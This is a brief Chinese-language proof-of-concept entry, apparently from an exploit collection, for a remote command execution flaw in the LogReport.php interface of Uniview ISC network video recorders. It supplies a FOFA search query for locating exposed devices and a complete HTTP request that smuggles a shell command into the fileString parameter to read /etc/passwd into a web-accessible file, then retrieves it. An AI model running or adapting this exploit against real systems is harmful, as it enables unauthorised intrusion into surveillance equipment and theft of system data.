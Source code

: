 ## 浙江宇视isc网络视频录像机LogReport.php存在远程命令执行漏洞

## fofa
```
body="Alarm" && body="白牌定制"
```

## poc
```
GET /Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;cat+/etc/passwd%3Echeck.txt HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=f952f704362e34231e810533d889f5fb; logintime=-; devLanguage=zh-CN
Upgrade-Insecure-Requests: 1
```
![4d5533d9c9f7ebfa9059b092a2b109b5](../../images/e3743a6c-346e-4615-86a6-40318176d9f0.png)

然后访问路径 ：

/Interface/LogReport/check.txt
